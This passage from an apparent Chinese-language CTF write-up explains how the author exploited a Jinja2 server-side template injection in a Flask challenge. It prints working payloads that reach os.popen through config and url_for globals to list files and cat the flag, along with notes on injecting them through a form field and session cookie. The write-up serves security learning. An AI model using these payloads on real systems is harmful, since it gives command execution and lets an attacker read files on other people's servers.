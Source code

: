 ```{{url_for.__globals__.__import__('os').popen('ls').read()}}```
16. **所以我先把 damage_result 的值更改為 ```{{url_for.__globals__}}``` 這段 payload 先試試看能不能得到 ```url_for.__globals__``` 底下的所有類別，結果是可以的。但我發現確定不能使用
```{{url_for.__globals__.__import__('os').popen}}```
這樣的 payload**

- ![image](https://hackmd.io/_uploads/ryAtvXpnJe.png)
- ![image](https://hackmd.io/_uploads/B1j1Ymahkx.png)

&emsp;

17. **最終透過題目給的 ```config.py``` 檔中引入了 os 給了我靈感，我從 config 底下成功 import os ，並找到了 ```flag.txt```
```{{config.__class__.__init__.__globals__['os'].popen('ls').read()}}```**

- ![image](https://hackmd.io/_uploads/SJ-WeHThyg.png)
- ![image](https://hackmd.io/_uploads/ryksb4a2Je.png)

&emsp;

18. **最終獲取 flag 的 payload 是
```{{config.__class__.__init__.__globals__['os'].popen('cat%20f*').read()}}```
(因為 burp 無法直接辨識空格，所以要用 url encode 的結果來代替)
以及成功在題目機上打出 flag 的截圖**

- ![image](https://hackmd.io/_uploads/BkFvGEpn1l.png)
- ![image](https://hackmd.io/_uploads/r1rMENT21l.png)

&emsp;

## <span class="red">心得</span>

1. **這麼看來，回到 step14 ，這個方法或許有機會成功(有可能這裡出錯是因為我的 payload 不對)，為了驗證一下，將成功的 payload 按照 step14 的步驟做一遍。而事實證明這個方法是可行的**

    (1) **首先是將 warrior_name 改為 payload :** **```{{config.__class__.__init__.__globals__['os'].popen('cat%20f*').read()}}```**

    (2) **再利用獲得的 session 去存取 ```/battle-report```**

- ![image](https://hackmd.io/_uploads/HJtvuEp3kg.png)
- ![image](https://hackmd.io/_uploads/Bk8ddNa3kg.png)
- ![image](https://hackmd.io/_uploads/SJWR_NThkg.png)

&emsp;

2. **基於實驗的精神，我也把 step12 的這個方法用正確的 payload 再做一次試試看可不可行。這次就真的不能這樣做了，結論是 cookie 後半段帶的值應該是有經過處理，不會是一樣的**

    (1) **payload 是** **```{{config.__class__.__init__.__globals__['os'].popen('cat%20f*').read()}}```**
    
    (2) **然後合併並更換 session 的值，同時將網頁重新整理**

- ![image](https://hackmd.io/_uploads/rJCosEp21g.png)
- ![image](https://hackmd.io/_uploads/HJYE3Ep21g.png)
- ![image](https://hackmd.io/_uploads/BJU0oNp3kx.png)
- ![image](https://hackmd.io/_uploads/BJXxn4ahJg.png)
- ![image](https://hackmd.io/_uploads/r1EZ2E62yl.png)
